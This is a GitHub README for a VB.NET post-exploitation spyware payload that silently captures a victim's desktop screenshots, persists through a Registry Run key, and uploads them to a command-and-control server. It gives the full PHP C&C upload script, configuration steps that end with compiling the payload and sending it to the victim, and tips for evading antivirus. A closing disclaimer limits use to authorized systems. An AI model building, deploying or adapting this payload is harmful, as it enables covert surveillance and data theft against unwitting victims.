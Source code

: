 [![forthebadge](https://forthebadge.com/images/badges/built-with-swag.svg)](https://forthebadge.com)

<p align="center">
  <img src="https://i.ibb.co/B4WbGyq/Screenshot-11.png">  
</p>
<p align="center">
<b> Silent Screenshot Capture | Post Exploitation Payload | VB.NET </b>
</p>
<p align="center">
 A simple payload to take the screenshot of victims desktop and upload it to the C&C.
</p>

## Features:

 - Persistent (Using Registry Run Key)
 - Works in background 
 - Less Code Less Bugs and Less Detection ;)
 - Deletes the screenshot from disk after upload it to C&C
 - C&C server in base64 
 - Upload screenshots in organized way on C&C
 - No port forwarding needed! works with a single php file
 - [TODO] Machine Information 
 - [TODO] Encryption 
 - [TODO] Set interval remotely from C&C

## Installation & Usage:
-   Clone this repository.
- A webhosting i recommend [namecheap](https://www.namecheap.com/) 
- Goto your public_html folder and make new [PHP](https://en.wikipedia.org/wiki/PHP) file and put below code in it
```
<?php
$del = $_GET["dellog"];
$folder = $_GET["folder"];
mkdir($folder,0777);
$file = $_GET["path"];
if (!empty($_FILES["file"])){
move_uploaded_file($_FILES["file"]["tmp_name"],
      $file . "/" . $_FILES["file"]["name"]);
}
unlink($del);
?>
```
 - Open the project in Visual Studio and the edit below variable in source code 
```
Dim server As String = BaseDecode1("your server address here in base64 encoded") 
```
 - and edit this variable below as well
```
Dim php As String = "yourphpfilename.php?" & "folder="
```
 - Just compile it and send it to the victim thats all !!
 
 ## Million Dollar Advice ;):
 To Avoid Antivirus Detection
 
 - Change the app icon
 - Generate new GUID 
 - Changes all the variables
 - Obfuscate the code using [Obfuscar](https://github.com/obfuscar/obfuscar)
 - Change the Assembly information 
 
 ## Donation:
 If this tool has been useful for you, feel free to thank me by buying me a coffee :)

[![N|Solid](https://i.ibb.co/Sym2mzn/buymeacoffee.png)](https://www.buymeacoffee.com/mrfrost) 
 
 ## Disclaimer:
**This tool is supposed to be used only on authorized systems. Any unauthorized use of this tool without explicit permission is illegal.**

## License:
 [**GNU GENERAL PUBLIC LICENSE**](https://github.com/mrfr05t/Mr.Peter/blob/master/LICENSE) 
 
 
